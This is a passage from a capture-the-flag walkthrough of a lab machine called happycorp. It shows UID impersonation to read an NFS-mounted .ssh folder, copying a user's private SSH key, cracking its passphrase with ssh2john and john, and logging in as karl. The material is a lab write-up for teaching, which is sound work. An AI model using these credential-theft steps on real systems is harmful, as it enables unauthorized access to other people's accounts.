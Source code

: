 To fix this problem I had to create a new user with userid **1001** on the attacker machine.

```console
root@kali:~# useradd -u 1001 corpuser -s /usr/bin/zsh
root@kali:~# passwd corpuser
New password:
Retype new password:
passwd: password updated successfully
```

Then, I switched to the newly created user, and was possible to list the content in the **.ssh** directory.

```console
root@kali:~# su corpuser
kali% ls -la /mnt/.ssh
total 24
drwx------ 2 corpuser corpuser 4096 Mar  5  2019 .
drwxr-xr-x 3 corpuser corpuser 4096 Mar  5  2019 ..
-rw-r--r-- 1 corpuser corpuser  740 Mar  4  2019 authorized_keys
-rw------- 1 corpuser corpuser 3326 Mar  4  2019 id_rsa
-rw-r--r-- 1 corpuser corpuser  740 Mar  4  2019 id_rsa.pub
-rw-r--r-- 1 corpuser corpuser   18 Mar  4  2019 user.txt
```

I transfered with the following commands the private key to the attacking machine.

```console
kali% cp /mnt/.ssh/id_rsa /tmp
kali% exit

root@kali:~# mv /tmp/id_rsa .
```

I coverted the private key to a hash format, to can use it with john.

```console
root@kali:~# ssh2john id_rsa > hash_id_rsa.txt
```

I performed a dictionary attack against the hash, and a few seconds I found the password.

```console
root@kali:~# john hash_id_rsa.txt
...
sheep            (id_rsa)
```

I granted to the private key write and read permissions, and logged in via SSH as the user **karl**.

```console
root@kali:~# chmod 400 id_rsa
root@kali:~# ssh -l karl 172.16.178.134 -i id_rsa
The authenticity of host '172.16.178.134 (172.16.178.134)' can\'t be established.
ED25519 key fingerprint is SHA256:OgzwYRlM7h5bXbWancj8dQk7eP1k25uSijalWsnKWVQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.16.178.134' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Linux happycorp 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar  5 05:10:07 2019 from 192.168.207.129
id
```